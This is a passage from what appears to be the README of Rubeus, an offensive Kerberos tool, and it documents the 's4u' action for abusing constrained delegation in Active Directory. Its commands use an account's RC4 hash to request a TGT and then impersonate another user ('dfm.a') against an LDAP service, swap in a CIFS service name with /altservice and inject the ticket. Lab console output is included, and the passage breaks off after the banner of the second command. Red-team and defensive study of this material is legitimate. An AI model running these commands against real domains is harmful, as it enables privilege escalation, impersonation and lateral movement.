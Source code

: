 
## s4u

The **s4u** action is nearly identical to Kekeo's **tgs::s4u** functionality. If a user (or computer) account is configured for constrained delegation (i.e. has a SPN value in its msds-allowedtodelegateto field), this action can be used to abuse access to the target SPN/server.

First, a valid TGT/KRB-CRED file is needed for the account with constrained delegation configured. This can be achieved with the **asktgt** action, given the NTLM/RC4 or the aes256_cts_hmac_sha1 hash of the account.

The ticket is then supplied to the **s4u** action via /ticket (again, either as a base64 blob or a ticket file on disk), along with a required /impersonateuser:X to impersonate to the /msdsspn:SERVICE/SERVER SPN that is configured in the account's msds-allowedToDelegateTo field. The /dc and /ptt parameters function the same as in previous actions.

The /altservice parameter takes advantage of [Alberto Solino](https://twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (/altservice:cifs,HOST,...).

Alternatively, instead of providing a /ticket, a /user:X and either a /rc4:X or /aes256:X hash specification (/domain:X optional) can be used similarly to the **asktgt** action to first request a TGT for /user with constrained delegation configured, which is then used for the s4u exchange.

    c:\Temp\tickets>Rubeus.exe asktgt /user:patsy /domain:testlab.local /rc4:602f5c34346bc946f9ac2c0922cd9ef6

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 602f5c34346bc946f9ac2c0922cd9ef6
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [*] base64(ticket.kirbi):

          doIE+jCCBPagAwIBBaE...(snip)...

    c:\Temp\tickets>Rubeus.exe s4u /ticket:C:\Temp\Tickets\patsy.kirbi /impersonateuser:dfm.a /msdsspn:ldap/primary.testlab.local /altservice:cifs /ptt

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
